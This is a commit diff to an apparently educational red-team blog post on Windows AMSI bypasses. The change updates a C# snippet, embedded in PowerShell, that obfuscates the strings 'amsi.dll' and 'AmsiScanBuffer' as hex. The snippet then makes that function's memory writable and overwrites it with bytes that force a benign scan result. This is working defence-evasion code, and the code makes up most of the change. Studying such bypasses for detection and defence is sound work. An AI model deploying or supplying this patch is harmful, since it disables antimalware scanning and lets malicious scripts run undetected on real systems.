

Before and after one commit to phra/phra.github.io, a Jekyll site: the page built from posts/amsi.md, in a window 1280 px wide and 1400 px high, scrolled down 3602 px. Shown: the whole window at 89% size, without its empty margins (105-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix: update c# bypass to powershellveryless version

````diff
--- a/posts/amsi.md
+++ b/posts/amsi.md
@@ -124,7 +124,7 @@ By setting it at `$true` we can successfully disable AMSI and `amsi.dll`'s `Amsi
 
 It's also possible to _monkeypatch_ at runtime the `amsi.dll` code. In particular, we are interested in patching the function `AmsiScanBuffer`. We can overwrite the logic of this function by making them always return `S_OK`, as when the command is allowed to run. [7]
 
-In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest `C#` version embedded in a `.ps1` script.
+In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest `C#` version embedded in a `.ps1` script, taken from [decoder](https://decoder.cloud)'s [powershellveryless](https://github.com/decoder-it/powershellveryless). [20] [21]
 
 ```powershell
 # Add-Type writes *.cs on disk!!
@@ -149,26 +149,41 @@ namespace Bypass
         public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
         [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
         static extern void MoveMemory(IntPtr dest, IntPtr src, int size);
+
         public static int Disable()
         {
-            string hexbuffer = "41 6d 73 69 53 63 61 6e 42 75 66 66 65 72";
+            string hexbuffer = "41;6d;73;69;53;63;61;6e;42;75;66;66;65;72";
+            string hexdllbuffer = "61;6d;73;69;2e;64;6c;6c";
+
+            string buf1=FromHexBuffer(hexdllbuffer);
+            string buf2=FromHexBuffer(hexbuffer);
+            IntPtr Address = GetProcAddress(LoadLibrary(buf1), buf2);
+
+            UIntPtr size = (UIntPtr)5;
+            uint p = 0;
+
+            VirtualProtect(Address, size, 0x40, out p);
+            byte c1=0xB8,c2=0x80;
+
+            Byte[] Patch = {c1, 0x57, 0x00, 0x07, c2, 0xC3 };
+            IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
+            Marshal.Copy(Patch, 0, unmanagedPointer, 6);
+            MoveMemory(Address, unmanagedPointer, 6);
+
+            return 0;
+        }
+
+        public static string FromHexBuffer(String hexdata)
+        {
             string buffer="";
-            string[] hexbuffersplit = hexbuffer.Split(' ');
+            String[] hexbuffersplit = hexdata.Split(';');
             foreach (String hex in hexbuffersplit)
             {
                 int value = Convert.ToInt32(hex, 16);
                 buffer+= Char.ConvertFromUtf32(value);
             }
-            IntPtr Address = GetProcAddress(LoadLibrary("a"+ "msi"+ ".dl" +"l"), buffer);
-            UIntPtr size = (UIntPtr)5;
-            uint p = 0;
-            VirtualProtect(Address, size, 0x40, out p);
-            byte c1=0xB8,c2=0x80;
-            Byte[] Patch = {c1, 0x57, 0x00, 0x07, c2, 0xC3 };
-            IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
-            Marshal.Copy(Patch, 0, unmanagedPointer, 6);
-            MoveMemory(Address, unmanagedPointer, 6);
-            return 0;
+
+            return buffer;
         }
     }
 }
@@ -362,5 +377,7 @@ meterpreter >
 17. [https://cobbr.io/ScriptBlock-Logging-Bypass.html](https://cobbr.io/ScriptBlock-Logging-Bypass.html)
 18. [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
 19. [https://www.youtube.com/watch?v=uE8IAxM_BhE](https://www.youtube.com/watch?v=uE8IAxM_BhE)
+20. [https://decoder.cloud](https://decoder.cloud)
+21. [https://github.com/decoder-it/powershellveryless](https://github.com/decoder-it/powershellveryless)
 
 [back](../)
````
